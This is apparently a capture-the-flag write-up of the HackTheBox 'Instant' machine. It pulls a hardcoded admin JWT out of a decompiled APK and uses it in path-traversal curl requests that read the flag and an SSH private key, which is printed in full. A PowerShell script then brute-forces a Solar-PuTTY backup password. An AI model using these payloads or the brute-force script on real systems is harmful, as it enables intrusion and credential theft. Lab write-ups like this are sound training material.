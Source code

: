 ```yaml
---
layout: post
title: "Instant"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```



starting with nmap 

```bash
sudo nmap  -sC -sV -T4 -p- -oN instant 10.129.198.124
```

![[Pasted image 20241015232055.png]]


just a website 

```
add instant.htb to /etc/hosts
```

this website had a link to download an ==apk ==file other than that nothing really interesting

using apktool , let's decompile this file

```bash
apktool d instant.apk -o instant-ap
```
![[Pasted image 20241015232418.png]]

after two 2000 years of scrolling on those files 

I found 2 interesting information

1 . the file /instant/instant-apk/res/xml/network_security_config.xml

mention 2 subdomains
```xml
<?xml version="1.0" encoding="utf-8"?>

<network-security-config>

<domain-config cleartextTrafficPermitted="true">

<domain includeSubdomains="true">mywalletv1.instant.htb</domain>

<domain includeSubdomains="true">swagger-ui.instant.htb</domain>

</domain-config>

</network-security-config>
```

2 . potential jwt of an admin in instant/instant/smali/com/instantlabs/instant/AdminActivities.smali

```java
.class public Lcom/instantlabs/instant/AdminActivities;
.super Ljava/lang/Object;
.source "AdminActivities.java"

move-result-object v1

    const-string v2, "Authorization"

    const-string v3, "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"

```


let's check the subdomains

it's seems like an api 

![[Pasted image 20241015233002.png]]



an intersting API , that allow the user to read log , but we are not authorized to use it 
![[Pasted image 20241015233112.png]]

```bash
curl curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=%2Fhome%2Fshirohige%2Fuser.txt" -H  "accept: application/json"
```

I tried the ==jwt key== founded earlier and it works 

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fshirohige%2Fuser.txt" -H "accept: application/json" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
{"/home/shirohige/logs/../../../../../../../../home/shirohige/user.txt":["c8793e869c888292d6850a39cbc373c7\n"],"Status":201}
```


let's grab the ssh key 

```bash
 curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fshirohige%2F.ssh%2Fid_rsa" -H "accept: application/json" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1874  100  1874    0     0  16812      0 --:--:-- --:--:-- --:--:-- 16882
{
  "/home/shirohige/logs/../../../../../../../../home/shirohige/.ssh/id_rsa": [
    "-----BEGIN RSA PRIVATE KEY-----\n",
    "MIIEoQIBAAKCAQEAiOfpiPsPftIWtmWT1x9unQtR0srvDPUGhDjgjn3UEBejx2vh\n",
    "qlTJ+8NrrA1PcQeSuiGm6oB727HSZFrI6Pd5rmRUAMRzRxjwCnMqblmkKLZPv70x\n",
    "wh8AYvJf1z3UQ7TRN24kO7pL/6mDGBxxu9kKVBv0hD3AIkrCmRtplWzhWPEvVuEx\n",
    "c8ARVrE20QBOSWXu1o8dZ1h7VPlJ/lfBs0d2FVc+M9x4LCkjjrNkZhtCnVMFMq2W\n",
    "3D3JmfBZbbo1yYUXqKlbGr4D0cabK0PLb7RUZy+2HNdcNfvOIALs0pkO1FADoTgA\n",
    "fLyUlVnu70aRQdYhGx8eY/UTkDQrrZMtI5dCxQIDAQABAoH/MbTxdhprqmrfadGz\n",
    "dLRBUHp/MNsJFNMnodAwB7QsyP4Va45Be38y4L5ZCcUX3aWL0lHglRwD6akATM/h\n",
    "+mquD9HfJbtL3QzQcPQ0Qc9G2EjASAVik9zBnZxVUSDBWzQ6yLAndFZAN7RUHSPS\n",
    "9aOfUZdZxZkq+sNpNzfDXTRI7RwjQx+lrW8AVdCQzdFWLUgpKrEDW87IgacgkgXM\n",
    "TGYv+2xlNd8fN6/1NKOoH2rsptk8LxLc5wtGXmGr97WtcdZfh2oUfiSGAc50a1yb\n",
    "MggySeWqPjN2lgt1hUXqDgRXCstN3RwUN7NfpUvoE5r9J/9NCLz5RFJ4+rTYcY4v\n",
    "oRvNAoGBALwCd1frvYDD/m5R8Q5XWXXe4j2pBDA71EpvlO0eiLpJkLXEQhkct4Od\n",
    "nKZzf7lVaQdxacC4W3Swn7rB4VL+AvKQmhfVWcAp6QRYYoQ6f2VWepNaeeXfIXAg\n",
    "vdm1vg+QRToZNbyfkFhuh1OfThWdHVnwh57aZDgC+eFCS/u8mV8zAoGBALpqXwvw\n",
    "/BS7qPgnXun4pMcRXvlb/g5/kRmgaWTraDqe4kmYrphwZyBcnJyWMJBZ0NXRlXCx\n",
    "W2wrU0xoA//X9/gyOEIPckbkTQ/H+Zoo9/Dvr27ZDdOafQc84vpsWFqZu7aoUC9l\n",
    "mGHdOVpUWusTt0S8rDkFun7CPtCtRuO9RzYnAoGAdhwKg0ZKd2EpLn71s6+2OLE7\n",
    "accLJY4AcH6mjUv4Uycx7K6NY59BvkI+jebTH0gDwjRCXlqywZzPy5BPEEcY7O9g\n",
    "joZuaqUpiJxJz428SJpKSNW27Gz/YaSAAAwHiVl10+jQdF29XYCaLTNP544bSUws\n",
    "tuO1v+ZGundeqpextjcCgYBDvL9I0Ypn5kDh2zyL/EOz6kX+ikTo88W/8CAcAcZf\n",
    "9rf3UjmvPrjac4ydAZ4n9dsCtyN8TZYQ2jVsgCdj4hBC6cyzhHVb+T1fTKUQNW7S\n",
    "5+VxfAGgMHTaGm/H23LHiTFCkCqC7oHOndpnTluzK/jeS0ixd7lqsh6tKSmnO3IS\n",
    "5QKBgQC3dxOmpw1Dz8NkE1o9Lc4gALsC8Mt0K9XU8Djn0X5bzZJ7GRx+QM0tOjf5\n",
    "rHeMqTproydbKcbTF4aQ9V1RORcqgoV013eRcaKnEXLuZwg0qbBeHx5UHKwyNr7l\n",
    "x7WHyKl+y+P2Taud0Kcmd9DJ/yQJ4wFdn0cbInxpcNKthZZLhw==\n",
    "-----END RSA PRIVATE KEY-----\n"
  ],
  "Status": 201
}
```


I saved the key in file and asked chatgpt how to clean it

```bash
sed  -i 's/[[:space:]]*"//g; s/\\n//g; s/,//g' user_rsa 
chmod 600 user_rsa
ssh shirohige@instant.htb -i user_rsa
```

![[Pasted image 20241015234411.png]]

I found this backup file 
```bash
/opt/backups/Solar-PuTTY/sessions-backup.dat
```


this tool can decrypt this but we need password ,  and it's only works on windows 


so with the help of chatgpt again , I made a small powershell script to bruteforce this

```powershell

$rockyouPath = "C:\Users\d0s3nt\Documents\instant\rockyou.txt"
$decryptExePath = "C:\Users\d0s3nt\Documents\instant\SolarPuttyDecrypt.exe"
$sessionsFilePath = "C:\Users\d0s3nt\Documents\instant\sessions-backup.dat"

function Invoke-Bruteforce {
    Get-Content -Path $rockyouPath | ForEach-Object {
        $password = $_.Trim()
        try {
            # Run the decryption executable with the current password
	    Write-Host $password
            & $decryptExePath $sessionsFilePath $password
        }
        catch {
            Write-Output "Error: $_"
        }
    }
}

Invoke-Bruteforce
```

after transferring the files , and running the script

![[Pasted image 20241016025744.png]]


![[Pasted image 20241016025903.png]]